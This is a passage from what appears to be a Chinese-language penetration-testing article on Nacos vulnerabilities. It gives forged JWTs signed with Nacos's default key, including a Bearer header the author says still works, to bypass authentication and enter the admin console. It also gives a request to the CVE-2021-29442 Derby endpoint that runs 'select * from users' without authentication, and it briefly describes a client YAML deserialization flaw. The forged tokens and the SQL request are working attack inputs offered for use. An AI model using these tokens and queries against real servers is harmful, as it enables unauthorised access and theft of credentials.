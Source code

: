 2. 生成key。  
  
https://jwt.io/  
  
复制默认的key，填写如下所示  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaHzMkMY0wafXEmSaz9Iu2ErmshYpib68xb0wm6MYoydicJh6ibcwfkxicQQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw  
  
  
{  
"sub": "nacos",  
"iat": 1745835608  
}  
  
{  
"alg": "HS256",  
"typ": "JWT"  
}  
  
  
带上token访问用户列表即可绕过403  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaotYQI2NyQRgLbfLoezYMLZqKjvNUllzhIVrEbV5hW8Xy2F7OGBLKXg/640?wx_fmt=jpeg&from=appmsg "")  
  
**直接登录到后台**  
：  
  
登陆界面输入任意账户密码 ，点击登录。抓包，添加请求头,我这个还能用。  
  
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MzQ4MTM1NzA1NX0.92Mo2gkDFuPnUaD2v63SQl1IWtObfBxDTWgIhqvteM8  
  
添加之后点击放行不要关闭拦截  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMXbtQLmYYe1Rd82YNP7hJXF5IAbuIFXeia7RDicoqw3YpAnzvkZh9C5A/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiar7D3vLJXiaxluSP47QmRv4wKI0h0MSoiacDD2JMwScQmeBsX0oCw7PBQ/640?wx_fmt=jpeg&from=appmsg "")  
  
之后关闭拦截即可  
### 6.Derby未授权访问（CVE-2021-29442）  
  
nacos带有一个嵌入式的小型数据库derby，默认无需认证即可被访问，并执行任意sql查询，导致敏感信息泄露。  
  
影响版本：在nacos <= 1.4.0，无论是否开启鉴权，该漏洞都存在。当 nacos >1.4.0， 在新版中默认没开鉴权，所有这个漏洞还存在。若开启了鉴权，版本大于1.4.0，则漏洞不存在。  
  
/nacos/v1/cs/ops/derby?sql=select * from users  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaiayodU5H99dibicZwko8XJEic69z5XONVOEx7a1VYyqguPop7mbCc1TLuw/640?wx_fmt=jpeg&from=appmsg "")  
### 7.Nacos Client Yaml反序列化漏洞  
  
这个我没复现出来，网上找了几个但是都没有。。。。  
  
在1.4.1版本中存在Nacos Client Yaml反序列化漏洞，该漏洞只影响单独使用 nacos-client SDK的用户，原因在于spring cloud、springboot、dubbo等框架中并非使用的 AbstractConfigChangeListener 监听配置，所以该漏洞只影响了使用AbstractConfigChangeListener监听配置的客户端。  
  